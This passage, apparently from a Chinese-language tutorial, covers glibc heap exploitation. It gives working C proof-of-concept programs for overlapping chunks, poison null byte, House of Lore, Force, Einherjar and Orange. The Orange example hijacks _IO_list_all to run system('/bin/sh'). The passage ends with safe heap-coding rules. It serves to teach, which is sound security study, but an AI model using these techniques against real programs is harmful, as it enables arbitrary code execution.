    ptr = (void *)&fake_chunks[0].fd;

    free(ptr);

    victim = malloc(0x30);
    printf("%p\n", victim);

    return 0;
}
```

* 原理分析

通过构造两个连续的 fake chunk 可以被 free(),调用free(first fake chunk.fd) 通过这种方式骗过安全措施

使得将 fake chunk 插入到 fast bins 中去

* 运行效果



通过结果可以看到, malloc() 得到的地址是属于第一个 fake chunk (栈区域)

### Overlapping Chunks

通过修改中间已释放 chunk size,使得 malloc() 时覆盖后面正在使用的 chunk

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

int main(int argc, char *argv[])
{

    intptr_t *p1, *p2, *p3, *p4;

    p1 = malloc(0x100 - 8);
    p2 = malloc(0x100 - 8);
    p3 = malloc(0x80 - 8);

    fprintf(stderr, "p1=%p\np2=%p\np3=%p\n", p1, p2, p3);

    memset(p1, '1', 0x100 - 8);
    memset(p2, '2', 0x100 - 8);
    memset(p3, '3', 0x80 - 8);

    free(p2);

    int evil_chunk_size = 0x181;
    int evil_region_size = 0x180 - 8;

    *(p2 - 1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2

    p4 = malloc(evil_region_size);

    fprintf(stderr, "\np4 has been allocated at %p and ends at %p\n", p4, p4 + evil_region_size);
    fprintf(stderr, "p3 starts at %p and ends at %p\n", p3, p3 + 80);

    fprintf(stderr, "p4 = %s\n", (char *)p4);
    fprintf(stderr, "p3 = %s\n", (char *)p3);

    memset(p4, '4', evil_region_size);
    fprintf(stderr, "p4 = %s\n", (char *)p4);
    fprintf(stderr, "p3 = %s\n", (char *)p3);

    memset(p3, '3', 80);
    fprintf(stderr, "p4 = %s\n", (char *)p4);
    fprintf(stderr, "p3 = %s\n", (char *)p3);
}
```

* 原理分析

三块连续分配的 chunk,首先释放中间 chunk B

假设 A chunk,在写的时候越界,修改了 free chunk B 的 size,超过了 chunk B 的 size

那在下次分配的时候,便会覆盖已经分配的 chunk C



* 运行结果



### Overlapping Chunks 2

通过修改中间正在使用 chunk size,然后free()中间 chunk 造成后面正在使用的 chunk 一同 free,使得 malloc() 时覆盖后面正在使用的 chunk

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main()
{

  intptr_t *p1, *p2, *p3, *p4, *p5, *p6;
  unsigned int real_size_p1, real_size_p2, real_size_p3, real_size_p4, real_size_p5, real_size_p6;
  int prev_in_use = 0x1;

  p1 = malloc(1000);
  p2 = malloc(1000);
  p3 = malloc(1000);
  p4 = malloc(1000);
  p5 = malloc(1000);

  real_size_p1 = malloc_usable_size(p1);
  real_size_p2 = malloc_usable_size(p2);
  real_size_p3 = malloc_usable_size(p3);
  real_size_p4 = malloc_usable_size(p4);
  real_size_p5 = malloc_usable_size(p5);

  fprintf(stderr, "chunk p1 from %p to %p", p1, (unsigned char *)p1 + malloc_usable_size(p1));
  fprintf(stderr, "\nchunk p2 from %p to %p", p2, (unsigned char *)p2 + malloc_usable_size(p2));
  fprintf(stderr, "\nchunk p3 from %p to %p", p3, (unsigned char *)p3 + malloc_usable_size(p3));
  fprintf(stderr, "\nchunk p4 from %p to %p", p4, (unsigned char *)p4 + malloc_usable_size(p4));
  fprintf(stderr, "\nchunk p5 from %p to %p\n", p5, (unsigned char *)p5 + malloc_usable_size(p5));

  memset(p1, 'A', real_size_p1);
  memset(p2, 'B', real_size_p2);
  memset(p3, 'C', real_size_p3);
  memset(p4, 'D', real_size_p4);
  memset(p5, 'E', real_size_p5);

  free(p4);

  *(unsigned int *)((unsigned char *)p1 + real_size_p1) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2; //<--- BUG HERE

  free(p2);

  p6 = malloc(2000);
  real_size_p6 = malloc_usable_size(p6);

  fprintf(stderr, "\nchunk p6 from %p to %p", p6, (unsigned char *)p6 + real_size_p6);
  fprintf(stderr, "\nchunk p3 from %p to %p\n", p3, (unsigned char *)p3 + real_size_p3);

  fprintf(stderr, "%s\n", (char *)p3);

  fprintf(stderr, "\nLet's write something inside p6\n");
  memset(p6, 'F', 1500);

  fprintf(stderr, "%s\n", (char *)p3);
}
```

* 原理分析

free() 操作不可能知道被释放的 chunk 更大或者更小,只有 chunk 中的 size 属性标记边界



* 运行效果


可以看到在修改了 p2 chunk 的 size 之后, free(p2 chunk),结果一同将 p3 chunk free

重新分配 p6 chunk 结果将已经分配的 p3 chunk 覆盖,修改 p6 chunk 的后 1000 字节,会修改 p3 chunk

### Poison Null Bytes

通过污染一个可分配区域的空字节

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main()
{
    uint8_t *a;
    uint8_t *b;
    uint8_t *c;
    uint8_t *b1;
    uint8_t *b2;
    uint8_t *d;

    a = (uint8_t *)malloc(0x100);
    fprintf(stderr, "a: %p\n", a);
    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "(it may be more than 0x100 because of rounding): %#x\n",
            real_a_size);

    b = (uint8_t *)malloc(0x200);

    fprintf(stderr, "b: %p\n", b);

    c = (uint8_t *)malloc(0x100);
    fprintf(stderr, "c: %p\n", c);

    uint64_t *b_size_ptr = (uint64_t *)(b - 8);

    *(size_t *)(b + 0x1f0) = 0x200;

    free(b);

    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
    fprintf(stderr, "b.size is: (0x200 + 0x10) | prev_in_use\n");
    a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

    uint64_t *c_prev_size_ptr = ((uint64_t *)c) - 2;
    fprintf(stderr, "c.prev_size is %#lx\n", *c_prev_size_ptr);

    fprintf(stderr, "pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
            *((size_t *)(b - 0x8)), *(size_t *)(b - 0x10 + *((size_t *)(b - 0x8))));
    b1 = malloc(0x100);

    fprintf(stderr, "b1: %p\n", b1);

    b2 = malloc(0x80);
    fprintf(stderr, "b2: %p\n", b2);

    memset(b2, 'B', 0x80);
    fprintf(stderr, "Current b2 content:\n%s\n", b2);

    free(b1);
    free(c);

    fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2'.\n");
    d = malloc(0x300);
    fprintf(stderr, "d: %p\n", d);

    fprintf(stderr, "Now 'd' and 'b2' overlap.\n");
    memset(d, 'D', 0x300);

    fprintf(stderr, "New b2 content:\n%s\n", b2);
}
```

* 原理分析

首先为 a 分配 0x100 bytes

a chunk 的可用区域可能大于 0x100

为 b 分配 0x200 bytes

为 c 分配 0x100 bytes

最少分配区域为 0x10 bytes

有检查 size==prev_size(next_chunk),这个增加的 check 会允许在 b 中拥有 null pointers

```C
*(size_t*)(b+0x1f0) = 0x200; // 0x200 == (0x211 & 0xff00)
```

假设 a 造成了溢出覆盖

```C
a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
```

* 运行效果



最后分配的 D 区域对 b2 块造成了覆盖

### House Of Lore

针对 small bins 的攻击

首先一个 small chunk 被释放到 small bin 中去

将 small chunk 的 bk 指向一个 fake small chunk

small bins 的管理方式是先进先出

两次 malloc() 之后,便会得到 fake small chunk

```C
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct small_chunk
{
    size_t prev_size;
    size_t size;
    struct small_chunk *fd;
    struct small_chunk *bk;
    char buf[0x64]; // chunk falls in smallbin size range
};

int main()
{
    struct small_chunk fake_chunk, another_fake_chunk;
    struct small_chunk *real_chunk;
    unsigned long long *ptr, *victim;
    int len;

    printf("%p\n", &fake_chunk);

    len = sizeof(struct small_chunk);

    // This chunk will go into unsorted bin
    ptr = malloc(len);
    printf("%p\n", ptr);

    // The second malloc can be of random size. We just want that
    // the first chunk does not merge with the top chunk on freeing
    printf("%p\n", malloc(len));
    free(ptr);

    real_chunk = (struct small_chunk *)(ptr - 2);
    printf("%p\n", real_chunk);

    // Grab another chunk with greater size so as to prevent getting back
    // the same one. Also, the previous chunk will now go from unsorted to
    // small bin
    printf("%p\n", malloc(len + 0x10));

    real_chunk->bk = &fake_chunk;
    fake_chunk.fd = real_chunk;

    fake_chunk.bk = &another_fake_chunk;
    another_fake_chunk.fd = &fake_chunk;

    // malloc real chunk
    printf("%p\n", malloc(len));

    // malloc fake chunk
    victim = malloc(len);
    printf("%p\n", victim);

    return 0;
}
```

* 原理分析

free(ptr)

```C
unsorted bin:
head<-->ptr<-->tail

small bin:
head<-->tail
```

malloc(len+0x10)

```C
unsorted bin:
head<-->tail

small bin:
head<-->ptr<-->tail
```

pointer manipulations

```C
unsorted bin:
head<-->tail

small bin:
undefined<-->fake_chunk<-->tail
```

malloc(len)

```C
unsorted bin:
head<-->tail

small bin:
undefined<-->fake_chunk<-->tail
```

malloc(len)

```C
unsorted bin:
head<-->tail

small bin:
undefined<-->tail
```

* 运行效果



可以看到最后一次 malloc(len) 返回 fake_chunk 块所属的地址范围

### House Of Force

针对 top chunk 的攻击

对 top chunk 的 size 进行修改成一个非常大的值(比如-1)

这就保证所有的 malloc() ,top chunk 均可满足要求,不会调用 mmap

假设攻击者想使得 malloc() 返回地址 P,则任何 size 的 &top_chunk - P,都会被分配

```C
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc";

struct chunk_structure
{
    size_t prev_size;
    size_t size;
    struct chunk_structure *fd;
    struct chunk_structure *bk;
    char buf[10]; // padding
};

int main()
{
    struct chunk_structure *chunk, *top_chunk;
    unsigned long long *ptr;
    size_t requestSize, allotedSize;

    //void *victim = main;

    printf("%p\n", victim);

    // First, request a chunk, so that we can get a pointer to top chunk
    ptr = malloc(256);
    chunk = (struct chunk_structure *)(ptr - 2);
    printf("%p\n", chunk);

    // lower three bits of chunk->size are flags
    allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

    // top chunk will be just next to 'ptr'
    top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);
    printf("%p\n", top_chunk);

    // here, attacker will overflow the 'size' parameter of top chunk
    top_chunk->size = -1; // Maximum size

    // Might result in an integer overflow, doesn't matter
    requestSize = (size_t)victim          // The target address that malloc should return
                  - (size_t)top_chunk     // The present address of the top chunk
                  - 2 * sizeof(long long) // Size of `size` and `prev_size`
                  - sizeof(long long);    // Additional buffer

    // This also needs to be forced by the attacker
    // This will advance the top_chunk ahead by (requestSize+header+additional buffer)
    // Making it point to `victim`
    printf("%p\n", malloc(requestSize));

    // The top chunk again will service the request and return `victim`
    ptr = malloc(100);
    printf("%p\n", ptr);

    return 0;
}
```

* 原理分析

top chunk

是一个 arena 的最上边界, malloc() 时 top chunk 最后考虑,如果需要更多空间则会调用 sbrk() 系统调用进行增长,其 PREV_INUSE 标志位总是被设置,与其它 chunk 拥有相同的结构



对 top chunk 修改时应该注意

chunk 的低三位是标志位,应该被忽略

当计算 requestSize 时,需要多减去 8 bytes ,是因为 malloc() 时会多分配 8 bytes

victim 可以是任何地址(heap,stack,bss)

* 运行效果



通过结果可以看到最后一次 malloc(100) 返回 victim 的地址

### House Of Einherjar

在满足堆泄露的情况下,单字节溢出控制 malloc() 的返回值

可能溢出覆盖掉 next chunk size 并且将当前 PREV_IN_USE 标志位置为 0

也可能将 prev_size 修改成一个假的 size,当 next chunk 已经 free,会发现之前的 chunk 是 free 状态,并使用假的 size

这样 free chunk 便会合并在一个假的 chunk

并由 malloc() 返回

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main()
{
    uint8_t *a;
    uint8_t *b;
    uint8_t *d;

    a = (uint8_t *)malloc(0x38);
    fprintf(stderr, "a: %p\n", a);

    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "real_size_a: %#x\n", real_a_size);

    size_t fake_chunk[6];

    fake_chunk[0] = 0x100;              // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100;              // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t)fake_chunk; // fwd
    fake_chunk[3] = (size_t)fake_chunk; // bck
    fake_chunk[4] = (size_t)fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t)fake_chunk; //bck_nextsize

    fprintf(stderr, "Our fake chunk at %p looks like:\n", fake_chunk);
    fprintf(stderr, "prev_size (not used): %#lx\n", fake_chunk[0]);
    fprintf(stderr, "size: %#lx\n", fake_chunk[1]);
    fprintf(stderr, "fwd: %#lx\n", fake_chunk[2]);
    fprintf(stderr, "bck: %#lx\n", fake_chunk[3]);
    fprintf(stderr, "fwd_nextsize: %#lx\n", fake_chunk[4]);
    fprintf(stderr, "bck_nextsize: %#lx\n", fake_chunk[5]);

    b = (uint8_t *)malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

    fprintf(stderr, "\nWe allocate 0xf8 bytes for 'b'.\n");
    fprintf(stderr, "b: %p\n", b);

    uint64_t *b_size_ptr = (uint64_t *)(b - 8);
    fprintf(stderr, "\nb.size: %#lx\n", *b_size_ptr);
    a[real_a_size] = 0;
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

    size_t fake_size = (size_t)((b - sizeof(size_t) * 2) - (uint8_t *)fake_chunk);
    fprintf(stderr, "Our fake prev_size will be %p - %p = %#lx\n", b - sizeof(size_t) * 2, fake_chunk, fake_size);
    *(size_t *)&a[real_a_size - sizeof(size_t)] = fake_size;

    fake_chunk[1] = fake_size;

    free(b);
    fprintf(stderr, "Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    d = malloc(0x200);
    fprintf(stderr, "Next malloc(0x200) is at %p\n", d);
}
```

* 原理分析

第二块 chunk 的大小为 0xf8 是为了确保忽略标志位,这样忽略标志位大小并修改 size 就很简单

* 运行效果



可以看到最后 malloc(0x200) 的返回值是属于 fake chunk 的地址范围

### House Of Orange

利用 heap leak 和 libc credit 运行 winner

获取 shell 的控制权限

```C
// gcc -std=c99 -o houseoforange main.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner(char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;

    p1 = malloc(0x400 - 16);

    top = (size_t *)((char *)p1 + 0x400 - 16);
    top[1] = 0xc01;

    p2 = malloc(0x1000);

    io_list_all = top[2] + 0x9a8;

    top[3] = io_list_all - 0x10;

    memcpy((char *)top, "/bin/sh\x00", 8);

    top[1] = 0x61;

    _IO_FILE *fp = (_IO_FILE *)top;

    fp->_mode = 0; // top+0xc0

    fp->_IO_write_base = (char *)2; // top+0x20
    fp->_IO_write_ptr = (char *)3;  // top+0x28

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t)&winner;
    *(size_t *)((size_t)fp + sizeof(_IO_FILE)) = (size_t)jump_table; // top+0xd8

    malloc(10);

    return 0;
}

int winner(char *ptr)
{
    system(ptr);
    return 0;
}
```

* 原理分析

假设有缓冲区溢出造成 top chunk 的破坏

刚开始时,整个 heap 均属于 top chunk

随着分配 top chunk 逐渐变小,当剩余容量无法满足时,就可能有两种情况

```C
A. Extent top chunk
B. Mmap a new page
```

每个 top chunk 在开始时分配 0x21000 bytes

我们首先给 p1 分配 0x400 bytes

剩余 0x20c00 并且 PREV_INUSE 标志位被设置 ==> 0x20c01

并且 top chunk 是最后一个 chunk ,因此必须保持页对齐

有两个条件恒成立

```C
A. top chunk + size 是页对齐的
B. top chunk prev_inuse 标志位永远被设置
```

我们假设溢出覆盖了 top chunk size 变成由 0x20c01 ==> 0xc01

然后 malloc(0x1000) ,必须扩展 top chunk,因为大小只有 0xc00



新扩展的区域临近 old heap end,通过 mmap 分配一个不同的 page


old top chunk 被 free(),并加入到 unsorted bins 中去



再次假设在 unsorted bins 中的 old top chunk 发生了溢出覆盖导致 bk 和 fd 指针发生变化,对应两种方法

```C
A.通过设置指针值,来得到一个任意位置的分配(至少需要两次 malloc)
B.在 unsorted bin 队列上 unlink chunk (至少需要一次分配)
```

针对第二种方法,是在堆检查虚假状态的时候被触发

```C

被触发的时候针对所有的文件指针会调用 _IO_flush_all_lockp

最终遍历 _IO_list_all_ 链表,并且调用 _IO_OVERFLOW

会造成利用 fake chunk 覆盖 _IO_list_all_

如果 _IO_OVERFLOW 指向 system()

另外指向 /bin/sh

那么调用 _IO_OVERFLOW(fp, EOF) 变成 system('/bin/sh')
```

获取 _IO_list_all 地址

```C
发现 old_top->fd old_top->bk 都指向 main_arena 中偏移 0x58 的地址,该处保存了 top chunk 的地址
io_list_all = top[2] +0x9a8;
```

设置 old top chunk

```C
chunk->bk->fd = _IO_list_all
chunk->bk = _IO_list_all - 16
设置 old top chunk 的前 8 bytes 为 /bin/sh
```

伪造 _IO_list_all

```c
// _IO_list_all 结构是 _IO_FILE_plus
struct _IO_FILE {
  int _flags;       /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags
  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;//这个就是linux内核中文件描述符fd
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */
#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  /*  char* _save_gptr;  char* _save_egptr; */
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;//IO函数跳转表
};
```

```C
struct _IO_jump_t
{
    JUMP_FIELD(size_t,
 __dummy);
    JUMP_FIELD(size_t,
 __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```

目的就是伪造 _IO_jump_t 中的 __overflow 为 system 函数达到执行 shell 的目的

如果把 old_top 设置为 0x61 并且触发一个不适合的 small chunk 分配,那么 malloc 就会将 old_top 地址放到 small[4] 中,又由于 small bins 是空的,所以 old_chunk 就会占据 main_arena 中 smallbins[4] 的首要位置.那么只要在 old_top 上伪造我们的 _IO_list_all ,就可以执行任意函数了

* 运行效果



可以看到运行程序之后,成功获取 shell 的控制权限

## 针对堆安全的编程规范

* 仅通过 malloc() 分配堆内存,确保不过界

* 仅对动态分配的内存释放一次,避免多次调用 free()

* 绝对不要再使用已经被分配的内存

* 总是检查 malloc() 的返回值是否是 NULL

* 在每一次 free() 之后,总是将指针指向 NULL

* 在异常或者错误处理程序中,总是释放已经分配的内存

* 在释放敏感数据之前使用 memset 将其清零